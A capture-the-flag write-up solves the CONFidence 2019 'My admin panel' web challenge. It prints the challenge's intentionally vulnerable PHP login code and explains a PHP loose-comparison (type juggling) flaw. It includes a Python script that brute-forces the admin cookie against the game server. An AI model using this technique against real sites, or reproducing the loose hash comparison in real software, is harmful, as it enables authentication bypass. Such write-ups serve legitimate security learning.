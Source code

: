 # CONFidence CTF Teaser 2019 – My admin panel

* **Category:** web, warmup
* **Points:** 51

## Challenge

> I think I've found something interesting, but I'm not really a PHP expert. Do you think it's exploitable?
>
> https://gameserver.zajebistyc.tf/admin/

## Solution

The website has directory listing active, connecting to it two files are listed:
* `login.php`
* `login.php.bak`

The first page prints the message: `Not authenticated.`.

The [second file](login.php.bak) contains the PHP source code.

```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Analyzing it, you can discover that a cookie named `otadmin` must be passed and its format must follow the following regex: `/^{"hash": [0-9A-Z\"]+}$/`.

A correct value for that cookie can be the following: `{"hash": "T35T"}`.

If the passed value for that cookie is different from the MD5 hash of the `$cfg_pass` variable, a hint is given. You can use the correct value crafted befor to print it.

```
I CAN EVEN GIVE YOU A HINT XD 0006464640640064000646464640006400640640646400
```

The hint is obtained by the following snippet.

```php
    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Where `strlen(MD5('xDdddddd'))` is equals to 32 (i.e. the length of MD5 hashes is 32).

In that snippet, an AND operation is performed between the ASCII value of each char and the constant `0xC0` (i.e. `11000000`). Considering that the first three chars of the hint are 0, it means that the first original chars of the hash were numbers. That is due to the fact in the ASCII representation of numbers, the first most significant bits are `00` and the AND operation for that bits is performed with `11`.

So, the problem could be located in a *type juggling* in this comparison:

```php
$session_data['hash'] != strtoupper(MD5($cfg_pass))
```

To exploit it, you have to guess the numbers at the beginning of the MD5 string.

A [Python script](my-admin-panel.py) can be written to exploit this task.

```python
import time
import random
import os
import urllib2

target_url = "https://gameserver.zajebistyc.tf/admin/login.php"
cookie_name = "otadmin"
cookie_value = "{{\"hash\": {}}}"

# Check cookie method.
def check_cookie(value_to_check):
   
   # Trying cookie.
   cookie = "{}={}".format(cookie_name, cookie_value.format(value_to_check))
   print "[*] Trying cookie {}".format(cookie)      
   req = urllib2.Request(target_url)
   req.add_header("Cookie", cookie)
   req.add_header("User-Agent", "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);")
   page = urllib2.urlopen(req)
   content = page.read()
      
   # Flag found.
   if "p4{" in content:
      print content
      return True
   else:
      return False

# Main method.
for i in range(1, 1000):

   try:
      
      if check_cookie(i):
         break
   
   except urllib2.HTTPError as err:
      print "[*] Response > {}".format(err.code)
      break

```

With the cookie `otadmin={"hash": 389}` you will discover the flag.

```
p4{wtf_php_comparisons_how_do_they_work}
```